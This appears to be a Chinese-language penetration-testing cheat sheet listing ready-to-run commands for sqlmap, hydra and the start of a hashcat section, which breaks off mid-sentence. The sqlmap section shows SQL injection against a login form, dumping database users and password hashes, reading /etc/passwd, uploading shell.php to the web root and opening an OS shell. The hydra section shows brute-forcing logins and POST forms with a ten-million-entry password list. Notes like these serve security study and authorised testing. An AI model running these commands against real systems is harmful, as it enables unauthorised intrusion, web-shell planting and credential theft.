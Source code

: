 get src here [sqlmapproject/sqlmap](https://github.com/sqlmapproject/sqlmap.git)，`sudo apt install sqlmap`

1.   在登录页面中注入，使用 `*` 号指定注入点：`sqlmap -u "http://192.168.0.1/login" --data "username=*&password=*"`
2.   指定 http 方法、cookie、随机 ua、referer、额外 header、时延：`sql -u 'http://192.168.0.1/login' --method=put --data='username=*&password=*' --cookie='session=foobar' --random-agent --referer='http://127.0.0.1/home' --headers='X-Forwarded-For:127.0.0.1\nAccept-Language:en' --delay=10`
3.   获取数据库类型、获取当前使用的数据库、获取当前登录数据库使用的用户：`sqlmap -u "http://192.168.0.1/login" -b --current-db --current-user`
4.   枚举数据库用户名、数据库用户的口令（hash）：`sqlmap -u "http://192.168.0.1/login" --users --password`
5.   枚举所有数据库：`sqlmap -u "http://192.168.0.1/login" --dbs`，枚举数据库中的数据表（需要指定数据库）：`sqlmap -u "http://192.168.0.1/login" -D test --tables`
6.   获取指定数据库中所有表：`sqlmap -u "http://192.168.0.1/login" -D test -T users --columns`，批量获取多列信息并保存：`sqlmap -u "http://192.168.0.1/login" -D test -T users -C user,password --dump`
7.   shell 操作
     1.   查看是否有 dba 权限：`sqlmap -u "http://192.168.0.1/login" --is-dba`，
     2.   读取 host 中的文件：`sqlmap -u "http://192.168.0.1/login" --file-read="/etc/passwd"`
     3.   将本地文件上传到目标目录：`sqlmap -u "http://192.168.0.1/login" --file-write="shell.php" --file-dest="/var/www/html/"`
     4.   获取目标 host 的交互式 shell：`sqlmap -u "http://192.168.0.1/login" --os-shell`

## hydra

用于密码爆破，get src here [vanhauser-thc/thc-hydra](https://github.com/vanhauser-thc/thc-hydra.git)，`sudo apt install hydra`；`/home/app/seclists/Passwords/xato-net-10-million-passwords-1000000.txt`；

1.   指定单个用户、密码：`hydra -l admin -p "admin@123" http://192.168.0.1/`

2.   指定用户本、密码本：`hydra -L users.txt -P password.txt http://192.168.0.1/`

3.   生成 8~16 位长的密码：`hydra -x "8:16:aA1&#" http://192.168.0.1/`，其中 a 可以代表所有小写字符，A 代表所有大写，1 代表数字

4.   对表单进行爆破，使用 3 个 `:` 来区分 http-post-form 区域，分别表示目标页面、有效参数、失败提示（尝试先指定 `-d` 尝试获取有效 RECV response，再根据输出判断 fail content）：

     ```bash
     hydra -l admin \
     -P /home/app/seclists/Passwords/xato-net-10-million-passwords-1000000.txt \
     -s 81 \
     127.0.0.1 \
     http-post-form "/api.php?act=login:username=^USER^&password=^PASS^&sub=login:close" \
     -V \
     -f
     ```

     `-l`：指定单个 user，`-L`：指定 user 字典；`-P`：指定密码本位置，`-p`：指定单个密码；`-V`：详细输出，`-f`：只要有成功的尝试就退出

## hashcat

src here：[hashcat/hashcat](https://github.com/hashcat/hashcat.git)；`sudo apt install hashcat`；hashcat 支持的 hash 爆破巨多，输入 `hashcat --help` 可以查看，但是性能需求较大，wsl 给的运存较小，如果用 vmware，给个 8GB 差不多了，越大越好；`/home/app/seclists/Passwords/xato-net-10-million-passwords-1000000.txt`

hashcat 不像 john the ripper，只需要提供 hash 值即可，参考以下匹配 `crack.txt`：
